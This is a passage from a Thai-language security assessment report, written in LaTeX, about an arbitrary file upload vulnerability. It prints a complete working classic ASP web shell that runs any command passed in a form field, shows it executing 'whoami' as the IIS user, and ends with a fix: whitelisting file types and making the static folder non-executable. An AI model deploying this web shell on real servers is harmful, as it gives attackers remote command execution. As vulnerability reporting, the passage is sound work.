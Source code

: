 \begin{figure}[h!]
	\centering
	\texttt{[image: arbiuploadform.png]}
	\caption{Upload Form ที่มีช่องโหว่}
	\label{Fig:arbiuploadform.png}
\end{figure}

\newpage

ด้านล่างนี้คือโค้ดที่อัพโหลดขึ้นไปบนระบบ ซึ่งระบบไม่ได้ตรวจสอบข้อมูลของไฟล์ที่ถูกอัพโหลด ทำให้ไฟล์นี้ถูกเก็บไว้ใน Static Folder ซึ้งสามารถเข้าถึงได้โดยตรง

 \begin{lstlisting}[language=html,numbers=none] 
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
Dim objShell, objCmdExec
Set objShell = CreateObject("WScript.Shell")
Set objCmdExec = objshell.exec(thecommand)
getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
\end{lstlisting}

และรูปที่ \ref{Fig:arexec.png} คือผลลัพธ์เมื่อส่งคำสั่ง whoami ไปรันบนเครื่อง  (iis\textbackslash USER)
\begin{figure}[h!]
	\centering
	\texttt{[image: arexec.png]}
	\caption{ผลลัพธ์ของคำสั่ง whoami}
	\label{Fig:arexec.png}
\end{figure}

\newpage
วิธีการแก้ไขคือให้ Whitelist เฉพาะไฟล์ที่สามารถ Upload ได้ พร้อมทั้งตรวจสอบข้อมูลภายในไฟล์ว่าตรงตามที่ Whitelist หรือไม่ และควรตั้งค่าให้ Static Folder นั้นไม่สามารถ Execute ไฟล์ใด ๆ ได้
